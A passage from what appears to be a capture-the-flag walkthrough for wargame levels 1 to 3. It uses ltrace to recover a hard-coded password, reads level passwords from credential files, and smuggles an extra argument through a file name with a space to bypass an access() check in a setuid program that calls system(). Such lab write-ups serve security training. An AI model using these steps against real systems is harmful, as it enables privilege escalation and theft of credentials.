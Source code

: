 ```sourceCode
leviathan1@melinda:~$ ltrace ./check
__libc_start_main(0x804852d, 1, 0xffffd794, 0x80485f0 <unfinished ...>
printf("password: ")                                       = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642password: test
)               = 116
getchar(0x8048680, 47, 0x804a000, 0x8048642)               = 101
getchar(0x8048680, 47, 0x804a000, 0x8048642)               = 115
strcmp("tes", "sex")                                       = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                       = 29
+++ exited (status 0) +++
```

And there we have it.

```sourceCode
leviathan1@melinda:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

## Level 2 -&gt; 3

This time we are given a file called `printfile` that is setuid `leviathan3`. Initially you'd think we can just print the contents of the `leviathan3` password file. Nope, there's a check in the binary preventing us from doing so.

Let's find out what that check is with `ltrace` once again

```sourceCode
leviathan2@melinda:~$ ltrace ./printfile /tmp/unlogic
__libc_start_main(0x804852d, 2, 0xffffd764, 0x8048600 <unfinished ...>
access("/tmp/unlogic", 4)                                  = 0
snprintf("/bin/cat /tmp/unlogic", 511, "/bin/cat %s", "/tmp/unlogic") = 21
system("/bin/cat /tmp/unlogic"testing
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                     = 0
+++ exited (status 0) +++
```

We can see that it checks access to the file, then runs `cat` on the file if it's ok for us to access it. Symlinks won't work here, as the `access` call dereferences the symlink. So what can we do? We exploit spaces. By creating a file that is a symlink to the `leviathan3` password file, along with another file, that has the same name followed by a space and another name, we can trick `access` into allowing it to carry on, and then `cat` to print the files. let me show you

```sourceCode
leviathan2@melinda:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/levpass3
leviathan2@melinda:~$ touch /tmp/levpass3\ other
leviathan2@melinda:~$ ./printfile /tmp/levpass3\ other
Ahdiemoo1j
/bin/cat: other: No such file or directory
```
